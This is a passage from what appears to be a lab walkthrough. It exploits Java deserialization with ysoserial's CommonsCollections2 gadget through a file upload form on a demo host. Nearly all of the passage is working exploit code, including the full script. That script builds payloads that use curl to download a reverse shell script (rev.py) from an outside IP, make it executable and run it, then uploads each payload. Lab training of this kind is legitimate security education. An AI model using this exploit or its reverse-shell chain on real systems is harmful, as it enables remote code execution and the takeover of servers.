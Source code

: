 **Step 4:** Finally, the exploit is changed to generate the respective payloads one after the other.

- Download the reverse shell

- Make it executable

- Start the shell

  ```python
  payload = 'CommonsCollections2'
  commands = [
  '"curl http://192.91.247.2:8443/rev.py -O rev.py"',
  '"chmod +x rev.py"',
  '"./rev.py"'
  ]
  for command in commands:
      os.system("java -jar /root/Desktop/tools/ysoserial/ysoserial-master-SNAPSHOT.jar " + payload + " " + command + " > " + payload)
      x=threading.Thread(target=upload, args=(payload,))
      x.start()
      readfile(payload)
      time.sleep(2)
  ```

Below you can find the full exploit code.

Save this as exploit.py and execute the file.

**Command:**

```
python exploit.py
```



**The full exploit**

```python
import requests
import time
import threading
import os
def readfile(filename):
    url = "http://demo.ine.local/upload/index.php?sent=OK"
    r = requests.get(url)
    print("[+] Used filename: " + filename)
    print(r.text)
    print("\n")
def upload(filename):
    url = "http://demo.ine.local/upload/upload.php"
    files ={'uploaded_file': open(filename, 'rb')}
    r = requests.post(url, files=files)
payload = 'CommonsCollections2'
commands = [
'"curl http://192.91.247.2:8443/rev.py -O rev.py"',
'"chmod +x rev.py"',
'"./rev.py"'
]
for command in commands:
    os.system("java -jar /root/Desktop/tools/ysoserial/ysoserial-master-SNAPSHOT.jar " + payload + " " + command + " > " + payload)
    x=threading.Thread(target=upload, args=(payload,))
    x.start()
    readfile(payload)
    time.sleep(2) 
```
